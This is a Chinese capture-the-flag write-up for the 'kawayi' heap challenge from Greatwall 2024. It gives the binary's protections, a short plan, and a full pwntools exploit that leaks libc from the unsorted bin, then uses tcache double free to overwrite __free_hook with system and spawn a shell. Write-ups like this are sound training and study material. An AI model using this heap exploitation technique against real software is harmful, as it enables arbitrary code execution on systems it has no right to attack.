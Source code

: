 ```yaml
---
title: greatwall2024 初赛 - kawayi 
date: 2024/3/31 21:53:00
tags:
    - heap - tcache
    - libc2.27
excerpt: 利用双重释放和使用-after-free漏洞，通过tcache dup将free_hook指向system，最终获取shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.27-3ubuntu1.6|

## 解题思路

标准菜单题  
允许申请0x430大的unsorted bin，有double free和uaf，考虑通过释放unsorted bin拿到libc，
然后打tcache dup写free_hook为system，再释放`b'/bin/sh\0'`的chunk就可以拿shell

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kawayi')
        if lo & 2:
            gdb.attach(sh)
    else:
        context.proxy = (socks.SOCKS5, '127.0.0.1', 1080)
        sh = remote('192.168.16.186', 8888) 
    libc = ELF('./libc.so.6') 

    def addn(idx:int, size:int, cont:bytes, hooked:bool=False): 
        sh.sendlineafter(b'exit', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())
        sh.sendafter(b'talk', cont)

    def edit(idx:int, cont:bytes):
        sh.sendlineafter(b'exit', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendafter(b'write', cont)

    def deln(idx:int):
        sh.sendlineafter(b'exit', b'2')
        sh.sendlineafter(b'index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'exit', b'4')
        sh.sendlineafter(b'index?\n\n', str(idx).encode())
        return sh.recvline()

    def eout():
        sh.sendlineafter(b'exit', b'5')

    addn(0, 0x410, b' ')
    addn(1, 0x20, b' ') # prevent chunk 0 being merged into top chunk
    deln(0)
    ret = show(0)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'Leak libc: {hex(libcBase)}'))
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    # tcache dup
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    addn(2, 0x20, p64(system))
    addn(3, 0x20, p64(system))
    # get shell
    edit(1, b'/bin/sh\0')
    deln(1)

    sh.clean()
    sh.interactive()
```

> 最后一分钟交的flag，真是蓟县
